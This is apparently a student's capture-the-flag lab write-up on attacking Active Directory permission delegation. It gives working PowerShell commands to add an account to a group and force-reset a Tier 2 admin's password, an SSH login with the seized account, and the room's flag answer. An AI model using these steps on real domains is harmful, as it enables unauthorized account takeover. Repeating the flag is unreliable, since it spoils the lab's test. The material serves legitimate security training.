

# Permission Delegation

Active Directory can delegate permissions and privileges through a feature called Permission Delegation.

- Exploits are referred to as ACL-based attacks
- AD allows administrators to configure Access Control Entries (ACEs) that populate Discretionary Access Control Lists (DACLs), hence the name ACL-based attacks
- Any AD object can be secured with ACE
- ACEs describe the allowed/denied permissions that any other AD object has against the target object

- if any ACEs are misconfigured, it may be possible for an attacker to exploit them

Example:
- IT Support team are granted ForceChangePassword ACE over Domain Users group, this would be considered insecure
- Misconfiguration would allow them to reset passwords for privileged accounts

# Exploiting ACEs
- Significant amount of ACEs can be misconfigured

- Bloodhound documentation assists in explaining enumerated ACEs and how they can be exploited

https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#

### ForceChangePassword
- Ability to set the user's current password without knowing their current password

### AddMembers
- Ability to add users, groups, or computers to the target group

### GenericAll
- Control over the object
- Ability to change the user's password, register an SPN
- Add AD object to the target group

### Generic Write
- Update any non-protected parameters of our target object
- Update the scriptPath parameter, which would cause a script to execute the next time the user logs on

### Write Owner
- Ability to update the owner of the target object
- Ability to assign ourselves as the owner, allowing us to gain additional permissions over the object

### Write DACL
- Ability to write new ACEs to the target object DACL
- Write ACE that grants our account full control over the target object

### AllExtendedRights
- Perform any action associated with extended AD rights against the target object

In order to exploit these ACEs, we need a method to interact with AD to make these requests:
- AD-RSAT PowerShell
- PowerSploit

# Bloodhound
Use the files provided in the room and upload to Bloodhound

<pre>sudo neo4j console start </pre>

# Privilege Escalation

- justin.barnes is a `MemberOf` domain za.tryhackme.loc and 'CanRDP' to THMWRK1
- Domain is tiered
- Tier 0 > Tier 1 > Tier 2
- Need to compromise the Tier 2 Admins group since this group has administrative privileges on all workstations
- Add justin.barnes as the start position
- Add Tier 2 Admins group as the end position

- justin.barnes is a `MemberOf` `DOMAIN USERS@ZA.TRYHACKME.LOC`
- Group has `GenericWrite` permissions on `IT Support@ZA.TRYHACKME.LOC` group

If a user/group has `GenericWrite` permissions on a group object in Active Directory, they would be able to modify non-security attributes of that group, including adding themselves to the group.

- Administrator has misconfigured the Permission Delegation of the IT Support group by providing the Domain Users group with AddMembers ACE
- Any member of the Domain Users group can add accounts to the IT Support group
- IT Support group has the `ForceChangePassword` ACE for Tier 2 Admin group members

## AddMembers
- Add our AD account (justin.barnes) to IT Support group

<pre>PS C:\>Add-ADGroupMember "IT Support" -Members "justin.barnes" </pre>

- Verify that justin.barnes has been added to IT Support group

<pre>PS C:\Users\justin.barnes> Get-ADGroupMember -Identity "IT Support" | select name

name             
----
brenda.black
reece.noble
paula.bailey
barbara.reid
christine.hall
irene.leach
ruth.dale
adrian.boyle
michael.cameron
nicholas.pearson
justin.barnes
max.smith
 </pre>

 ## ForceChangePassword
- justin.barnes is now a member of IT Support group
- Inherit the ForceChangePassword Permission Delegation over Tier 2 Admin group
- Identify the members of this group to select a target

<pre>PS C:\Users\justin.barnes> Get-ADGroupMember -Identity "Tier 2 Admins" | select name

name               
----
t2_lawrence.lewis
t2_leon.francis
t2_henry.harvey
t2_june.russell
t2_kathleen.mills
t2_irene.nash
t2_henry.shaw
t2_alan.riley
t2_jordan.hawkins
t2_ross.bird
t2_robin.wyatt
t2_caroline.dawson
t2_melanie.davies
 </pre>

 - Target account: t2_robin.wyatt
 - Use the Set-ADAccountPassword AD-RSAT cmdlet to force change the password

 <pre>PS C:\Users\justin.barnes> $Password = ConvertTo-SecureString "Password.123" -AsPlainText -Force

PS C:\Users\justin.barnes> Set-ADAccountPassword -Identity "t2_robin.wyatt" -Reset -NewPassword $Password </pre>

- Authenticate to THMWRK1 (10.200.63.248) using account t2_robin.wyatt

<pre>ssh t2_robin.wyatt@10.200.63.248</pre>

<pre>za\t2_robin.wyatt@THMWRK1 C:\Users\t2_robin.wyatt>whoami
za\t2_robin.wyatt</pre>

What is the value of the flag stored on the Desktop of the Administrator user on THMWRK1 (flag1.txt)?
<pre>za\t2_robin.wyatt@THMWRK1 C:\Users\t2_robin.wyatt>cd C:\Users\Administrator\Desktop

za\t2_robin.wyatt@THMWRK1 C:\Users\Administrator\Desktop>more flag1.txt
THM{Permission.Delegation.FTW!}
</pre>